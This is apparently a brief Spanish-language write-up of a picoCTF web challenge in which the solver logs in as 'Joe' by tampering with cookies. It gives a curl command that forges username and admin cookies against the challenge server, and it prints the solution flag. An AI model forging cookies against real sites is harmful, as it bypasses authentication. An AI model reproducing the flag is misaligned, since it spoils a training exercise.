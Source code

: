 
#### Description
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796

#### Hints 
1. Hmm it doesn't seem to check anyone's password, except for Joe's?



#### Solución:

1. Analizamos las cookies

````
Analizamos el protocolo HTTP
Analizamos Reques Headers
Request methods
Response headers
Respons Codes
200, 400, 303, 505
Http cookies

curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: username=joe; password=FASDF; admin=True"
`````

2. Podemos usar un editor de cookies.

````

`````


#### Pico:
picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}

#### Notas adicionales:


#### Referencias:



